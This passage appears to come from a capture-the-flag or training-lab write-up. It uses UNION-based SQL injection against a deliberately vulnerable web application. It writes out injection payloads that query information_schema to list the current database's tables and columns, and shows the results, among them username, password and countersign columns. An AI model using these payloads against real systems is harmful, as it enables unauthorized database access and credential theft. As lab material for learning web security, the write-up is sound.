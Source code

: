 ```sql
1 AND 1=0 UNION SELECT null, null FROM guestbook --
```

And we get the following result

```text
Table 'Member_Sql_Injection.guestbook' doesn't exist
```

It seems like our current (default) database is `Member_Sql_Injection`. There is only one `table` under `Member_Sql_Injection` that we can see on our list of `tables` and that is **users**

An other way to know which `database` we are currently using is using the following `query`

```sql
1 AND 1=0 UNION SELECT 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()) --
```

> The [`DATABASE()`](https://www.w3schools.com/SQL/func_mysql_database.asp) function returns the name of the current database. If there is no current database, this function returns NULL or "".


> The group_concat() function concatenates results into a string. The Information_schema is a database that stores information about other databases. The database() function returns the name of the current database.


## Get columns names

Let's try to find out how many columns does this table has

```sql
1 or 1 UNION select table_name, column_name FROM information_schema.columns --
```

And this also gives us a long list of `table` name and their `columns`. Here are the `tables` that is of our interest and their `column` names.

|No|Table|Column names|
|--|--|--|
|1| **db_default** | `id`, `username`, `password` |
|2| **users** | `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`,  |
|3| **guestbook** | `id_comment` , `comment`, `name` |
|4| **list_images** | `id`, `url`, `title`, `comment` |
|5| **vote_dbs** | `id_vote`, `nb_vote`, `subject`|

?> If you are wondaring how do we know that **this** are the `tables` that interests us, then know that all the other tables ware in all uppercase with generic names that we can always find in **default** configurations. Ofcores this does not mean an importent database can not have those kind of charactaristics.

?> Remember that to acess tables from different database instead of using *only* the name of the table we have to precise teh database and then the name of the table in the following way `database.table_name`. So if we want to access to the table `list_images` from the database `Member_images` we have to use the following syntax `Member_images.list_images`
